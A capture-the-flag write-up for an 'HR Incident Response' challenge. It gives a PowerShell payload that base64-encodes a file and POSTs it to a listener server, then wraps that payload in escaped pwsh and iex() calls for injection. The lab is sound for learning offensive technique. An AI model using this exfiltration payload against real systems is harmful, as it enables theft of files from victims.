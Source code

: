 # 7. HR Incident Response
> Santa uses an Elf Resources website to look for talented information security professionals. Gain access to the website and fetch the document C:\candidate_evaluation.docx. Which terrorist organization is secretly supported by the job applicant whose name begins with "K." For hints on achieving this objective, please visit Sparkle Redberry and help her with the Dev Ops Fail Cranberry Pi terminal challenge.

1. Build a server to receive the POSTed file.
2. Test a payload to upload a file.
3. Use scripts/csv_injection Docker-compose project.
4. Start the node server: `docker-compose up nodeserver`
5. Use this payload to test:
```
echo "123123" > content.txt
$uri = "http://172.17.0.3:8084/"
$FileName="content.txt"

$Data = get-content $FileName
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Data)
$EncodedData = [Convert]::ToBase64String($Bytes)

$uri = $uri + "?data="+$EncodedData
Invoke-WebRequest -Uri $uri -Method POST
```

6. Node side, you should receive `MQAyADMAMQAyADMA`; and then
```bash
echo "MQAyADMAMQAyADMA" | base64 -d
123123 <<< You've exfiltrated a file!
```


7. Convert the payload to something that can be injected:

```
pwsh -c '$uri = \"http://172.17.0.3:8084/\"
$FileName=\"content.txt\"
$Data = get-content $FileName
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Data)
$EncodedData = [Convert]::ToBase64String($Bytes)
$uri = $uri + \"?data=\"+$EncodedData
Invoke-WebRequest -Uri $uri -Method POST'
```

All the above needs to be ran by the shell. Move the payload to a variable (with proper escaping) and then invoke iex() to execute it:

```
pwsh -c '$A=\'$uri = \"http://172.17.0.3:8084/\"
$FileName=\"content.txt\"
$Data = get-content $FileName
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Data)
$EncodedData = [Convert]::ToBase64String($Bytes)
$uri = $uri + \"?data=\"+$EncodedData
Invoke-WebRequest -Uri $uri -Method POST
iex($A)'\'
```
